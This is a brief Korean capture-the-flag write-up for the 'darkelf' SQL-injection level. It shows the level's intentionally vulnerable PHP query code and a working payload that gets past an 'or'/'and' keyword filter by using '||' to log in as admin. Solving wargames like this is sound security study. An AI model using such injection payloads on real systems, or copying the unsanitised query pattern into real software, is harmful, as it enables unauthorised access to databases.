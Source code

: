 # darkelf

소스코드는 다음과 같다.

```php
<?php 
  include "./config.php"; 
  login_chk(); 
  $db = dbconnect();  
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_darkelf where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysqli_fetch_array(mysqli_query($db,$query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("darkelf"); 
  highlight_file(__FILE__); 
?>
```

`id`가 `admin`이 되어야 클리어이다.

> ?pw=123' or id='admin 이렇게 보내면 `clear`가 된다. 하지만 `preg_match`에 걸리기 때문에 `or`을 제외해줘야아한다.

따라서 `or`을 `||`로 바꾸면 풀리게 된다.

> ?pw=123%27%20\|\|%20id=%27admin

Clear!

